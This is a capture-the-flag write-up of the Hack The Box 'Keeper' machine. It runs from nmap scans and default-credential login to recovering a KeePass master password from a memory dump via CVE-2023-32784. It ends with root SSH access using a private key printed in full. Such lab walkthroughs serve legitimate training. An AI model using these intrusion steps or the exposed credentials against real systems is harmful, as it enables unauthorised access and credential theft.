







# Keeper

First, I run a quick scan on the target

```
$ sudo nmap -sS -Pn --max-retries 1 --min-rate 20 -p- keeper.htb   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-22 14:50 CEST
Warning: 10.10.11.227 giving up on port because retransmission cap hit (1).
Nmap scan report for keeper.htb (10.10.11.227)
Host is up (0.053s latency).
Not shown: 65515 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
4332/tcp  filtered getty-focus
5074/tcp  filtered alesquery
6776/tcp  filtered unknown
11839/tcp filtered unknown
14349/tcp filtered unknown
22990/tcp filtered unknown
28406/tcp filtered unknown
29821/tcp filtered unknown
36192/tcp filtered unknown
41255/tcp filtered unknown
41405/tcp filtered unknown
43966/tcp filtered unknown
48641/tcp filtered unknown
59184/tcp filtered unknown
60492/tcp filtered unknown
61086/tcp filtered unknown
61725/tcp filtered unknown
61813/tcp filtered unknown
```
There appear to be many filtered services, they are probably hidden by a firewall. So I focused on open services located on port 22 and port 80 and I ran a new scan only on these two ports looking for vulnerabilities.
 
```
$ sudo nmap -sS -Pn --script vuln -p 22,80 keeper.htb 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-22 14:58 CEST
Nmap scan report for keeper.htb (10.10.11.227)
Host is up (0.19s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  BID:49303  CVE:CVE-2011-3192
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|       https://www.tenable.com/plugins/nessus/55976
|       https://www.securityfocus.com/bid/49303
|_      https://seclists.org/fulldisclosure/2011/Aug/175
|_http-dombased-xss: Couldn't find any DOM based XSS.

Nmap done: 1 IP address (1 host up) scanned in 154.12 seconds
```

The server seems to be vulnerable to cve-2011-3192, I did some research but it is most likely a false positive. So I focused on open service on port 80. There appears to be an http sever, I visited it via my browser and this message appeared.

<div><p align="center"></div>

To visit this subdomain I had to add the **tickets.keeper.htb** entry to my `/etc/hosts` file.

<div><p align="center"></div>

After several failed login attempts (brute-force, vulnerabilities, etc...) I searched on internet for default credentials  and I found [this](https://itnixpro.com/install-request-tracker-rt-on-ubuntu/).

<div><p align="center"></div>

The default credentials worked and I was able to log in to the service and see the dashboard.

<div><p align="center"></div>

After logging in I was able to explore the site looking for information and I found this old ticket.

<div><p align="center"></div>

```
I have saved the file to my home directory and removed the attachment for security reasons.

Once my investigation of the crash dump is complete, I will let you know.
```

The ticket concerns a user named lnorgaard and in the comments I found the initial password set for him. If it has never been changed I will be able to log in.

<div><p align="center"></div>

As I thought, I was able to use these credentials to access the ssh service.

```
$ ssh lnorgaard@keeper.htb      
The authenticity of host 'keeper.htb (10.10.11.227)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes 
Warning: Permanently added 'keeper.htb' (ED25519) to the list of known hosts.
lnorgaard@keeper.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Fri Sep 29 12:09:02 2023 from 10.10.14.107
lnorgaard@keeper:~$
```

On the home page there was a zip file and from there I extracted two files, a memory dump file and a .kdbx file.

```
lnorgaard@keeper:~$ unzip RT30000.zip 
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx     
```

I downloaded these two files locally to be able to analyze them better.

```
$ scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip . 
lnorgaard@keeper.htb's password: 
RT30000.zip
```

Now I have to find a way to be able to read these files. On the internet I found this [tool](https://unix.stackexchange.com/questions/598893/opening-dmp-mini-dump-crash-report-file) written in rust to be able to read the dump I obtained.

To install it I used **cargo** utility.
```
cargo install minidump-stackwalk
```

And to use it I ran this command.

```
$ minidump-stackwalk KeePassDumpFull.dmp
```

From this dump, I can infer some information:

* **Operating System**: The dump indicates that the operating system is Windows NT 10.0.19041, which corresponds to Windows 10.
* **Hardware Information**: The dump includes some hardware information such as the CPU architecture (amd64) and CPU details (family, model, stepping, number of CPUs).
* **Application or Process**: It seems like the dump is related to an application or process named "KeePass.exe," which is running on the system.
* **Stack Traces**: The dump includes stack traces from multiple threads. Stack traces provide information about the sequence of function calls that led to a particular point in the program. These can be helpful for debugging purposes but may not provide specific details about the program's functionality.

I got a couple of useful pieces of information, such as now I know that Kepass is used for securely saving passwords.


Now I move on to the .kdbx file and use the `kpcli` command line tool to read it, but it is protected by a password. I can't read it.
```
$ kpcli   

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> open /home/kali/Documents/HackTTheBox/Keeper/passcodes.kdbx
Provide the master password:
```

Searching on github I found a [repo](https://github.com/vdohney/keepass-password-dumper) that exploits **CVE-2023-32784** to extract the password of a kepass database using the memory dump. 

I downloaded the code and ran it on my windows 11 machine.

```
> dotnet run .\KeePassDumpFull.dmp
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●●r
Found: ●●●●r
Found: ●●●●r
Found: ●●●●r
Found: ●●●●r
Found: ●●●●r
Found: ●●●●r
Found: ●●●●r
Found: ●●●●r
Found: ●●●●r
Found: ●●●●●ø
Found: ●●●●●ø
Found: ●●●●●ø
Found: ●●●●●ø
Found: ●●●●●ø
Found: ●●●●●ø
Found: ●●●●●ø
Found: ●●●●●ø
Found: ●●●●●ø
Found: ●●●●●ø
Found: ●●●●●●d
Found: ●●●●●●d
Found: ●●●●●●d
Found: ●●●●●●d
Found: ●●●●●●d
Found: ●●●●●●d
Found: ●●●●●●d
Found: ●●●●●●d
Found: ●●●●●●d
Found: ●●●●●●d
Found: ●●●●●●●
Found: ●●●●●●●
Found: ●●●●●●●
Found: ●●●●●●●
Found: ●●●●●●●
Found: ●●●●●●●
Found: ●●●●●●●
Found: ●●●●●●●
Found: ●●●●●●●
Found: ●●●●●●●
Found: ●●●●●●●●m
Found: ●●●●●●●●m
Found: ●●●●●●●●m
Found: ●●●●●●●●m
Found: ●●●●●●●●m
Found: ●●●●●●●●m
Found: ●●●●●●●●m
Found: ●●●●●●●●m
Found: ●●●●●●●●m
Found: ●●●●●●●●m
Found: ●●●●●●●●●e
Found: ●●●●●●●●●e
Found: ●●●●●●●●●e
Found: ●●●●●●●●●e
Found: ●●●●●●●●●e
Found: ●●●●●●●●●e
Found: ●●●●●●●●●e
Found: ●●●●●●●●●e
Found: ●●●●●●●●●e
Found: ●●●●●●●●●e
Found: ●●●●●●●●●●d
Found: ●●●●●●●●●●d
Found: ●●●●●●●●●●d
Found: ●●●●●●●●●●d
Found: ●●●●●●●●●●d
Found: ●●●●●●●●●●d
Found: ●●●●●●●●●●d
Found: ●●●●●●●●●●d
Found: ●●●●●●●●●●d
Found: ●●●●●●●●●●d
Found: ●●●●●●●●●●●
Found: ●●●●●●●●●●●
Found: ●●●●●●●●●●●
Found: ●●●●●●●●●●●
Found: ●●●●●●●●●●●
Found: ●●●●●●●●●●●
Found: ●●●●●●●●●●●
Found: ●●●●●●●●●●●
Found: ●●●●●●●●●●●
Found: ●●●●●●●●●●●
Found: ●●●●●●●●●●●●f
Found: ●●●●●●●●●●●●f
Found: ●●●●●●●●●●●●f
Found: ●●●●●●●●●●●●f
Found: ●●●●●●●●●●●●f
Found: ●●●●●●●●●●●●f
Found: ●●●●●●●●●●●●f
Found: ●●●●●●●●●●●●f
Found: ●●●●●●●●●●●●f
Found: ●●●●●●●●●●●●f
Found: ●●●●●●●●●●●●●l
Found: ●●●●●●●●●●●●●l
Found: ●●●●●●●●●●●●●l
Found: ●●●●●●●●●●●●●l
Found: ●●●●●●●●●●●●●l
Found: ●●●●●●●●●●●●●l
Found: ●●●●●●●●●●●●●l
Found: ●●●●●●●●●●●●●l
Found: ●●●●●●●●●●●●●l
Found: ●●●●●●●●●●●●●l
Found: ●●●●●●●●●●●●●●ø
Found: ●●●●●●●●●●●●●●ø
Found: ●●●●●●●●●●●●●●ø
Found: ●●●●●●●●●●●●●●ø
Found: ●●●●●●●●●●●●●●ø
Found: ●●●●●●●●●●●●●●ø
Found: ●●●●●●●●●●●●●●ø
Found: ●●●●●●●●●●●●●●ø
Found: ●●●●●●●●●●●●●●ø
Found: ●●●●●●●●●●●●●●ø
Found: ●●●●●●●●●●●●●●●d
Found: ●●●●●●●●●●●●●●●d
Found: ●●●●●●●●●●●●●●●d
Found: ●●●●●●●●●●●●●●●d
Found: ●●●●●●●●●●●●●●●d
Found: ●●●●●●●●●●●●●●●d
Found: ●●●●●●●●●●●●●●●d
Found: ●●●●●●●●●●●●●●●d
Found: ●●●●●●●●●●●●●●●d
Found: ●●●●●●●●●●●●●●●d
Found: ●●●●●●●●●●●●●●●●e
Found: ●●●●●●●●●●●●●●●●e
Found: ●●●●●●●●●●●●●●●●e
Found: ●●●●●●●●●●●●●●●●e
Found: ●●●●●●●●●●●●●●●●e
Found: ●●●●●●●●●●●●●●●●e
Found: ●●●●●●●●●●●●●●●●e
Found: ●●●●●●●●●●●●●●●●e
Found: ●●●●●●●●●●●●●●●●e
Found: ●●●●●●●●●●●●●●●●e
Found: ●Ï
Found: ●,
Found: ●l
Found: ●`
Found: ●-
Found: ●'
Found: ●]
Found: ●§
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●I
Found: ●:
Found: ●=
Found: ●_
Found: ●c
Found: ●M

Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

The password should be "dgrød med fløde" or something similar. The initial letter is certainly missing, but from what I have obtained I have no idea what it might be. I decided to google what this phrase meant and I discovered that it is a Danish dessert.

<div><p align="center"></div>

The password is **rødgrød med fløde**.

```
kpcli:/> open passcodes.kdbx 
Provide the master password: *************************
```

The root user's private key in putty format is present in the database

```
kpcli:/passcodes/Network> show keeper.htb\ (Ticketing\ Server) 

 Path: /passcodes/Network/
Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Now I need to know How to use PuTTY for SSH key-based authentication. To do this I found this [article](https://www.techtarget.com/searchsecurity/tutorial/How-to-use-PuTTY-for-SSH-key-based-authentication) on internet.

I saved the putty key in a file named **key** on my local machine and I ran this command.

```
$ puttygen key -O private-openssh -o id_rsa 
```

After that I was able to use this key to log in as root via ssh on remote machine.

```
$ ssh -i id_rsa root@keeper.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Fri Oct  6 12:54:05 2023 from 10.10.16.62
root@keeper:~# pwd
/root
root@keeper:~# ls -l
total 85352
-rw-r----- 1 root root       33 Oct  6 06:08 root.txt
-rw-r--r-- 1 root root 87391651 Jul 25 19:56 RT30000.zip
drwxr-xr-x 2 root root     4096 Jul 25 20:11 SQL
```